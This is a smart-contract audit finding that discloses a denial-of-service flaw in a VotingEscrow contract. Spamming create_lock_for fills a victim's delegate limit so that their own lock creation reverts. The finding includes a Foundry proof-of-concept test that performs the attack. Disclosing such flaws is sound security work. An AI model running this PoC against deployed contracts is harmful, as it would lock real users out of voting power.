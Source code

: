 Keen Black Dalmatian

High

# Users may not create lock in VotingEscrow.sol because of dos

## Summary
One user may own maximum 1024 delegation. When we add one user's delegate to maximum via `create_lock_for`. The user cannot create lock for himself.

## Vulnerability Detail
In VotingEscrow.sol, users can create one lock to gain some voting power. Each NFT stands for one lock position. When we mint/burn/trasnfer NFT tokens, we will move the related delegates. 
The vulnerability is that there is one delegate limitation, `MAX_DELEGATES` and users can create lock for anyone. Malicious users can create lock for the victim with the minimum value and let the victim's delegate number reach the limitation. When the victim wants to create one lock for the voting power, the operation will be reverted because he owns too many tokenIds.

```javascript
    function _create_lock(uint _value, uint _lock_duration, address _to) internal returns (uint) {
        ...
        ++tokenId;
        uint _tokenId = tokenId;
        _mint(_to, _tokenId);
        ...
    }
    function _mint(address _to, uint _tokenId) internal returns (bool) {
        ...
        _moveTokenDelegates(address(0), delegates(_to), _tokenId);
        ...
    }
    function _moveTokenDelegates(
        address srcRep,
        address dstRep,
        uint _tokenId
    ) internal {
            ...
            if (dstRep != address(0)) {
                ...
                require(
                    dstRepOld.length + 1 <= MAX_DELEGATES,
                    "dstRep would have too many tokenIds"
                );
                ...
            }
        }
    }
```
### Poc
Add this test case into VeloVoting.t.sol, the malicious user create 1024 lock for victim owner2. When the victim owner2 want to create one lock, the operation will be reverted.
```javascript
    function testPocLockFor() public {
        address pair = router.pairFor(address(FRAX), address(FLOW), false);
        for(uint256 i = 0; i < 1024; i++) {
            escrow.create_lock_for(1, FIFTY_TWO_WEEKS, address(owner2));
        }
        IERC20(escrow.lpToken()).transfer(address(owner2), 10);

        vm.startPrank(address(owner2));
        IERC20(escrow.lpToken()).approve(address(escrow), TOKEN_1);
        escrow.create_lock(1, FIFTY_TWO_WEEKS);
        vm.stopPrank();
    }
```
## Impact
Users cannot create one lock to gain some voting power because of the malicious NFT positions.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L865-L867

## Tool used

Manual Review

## Recommendation
Do not add one limitation for the delegation.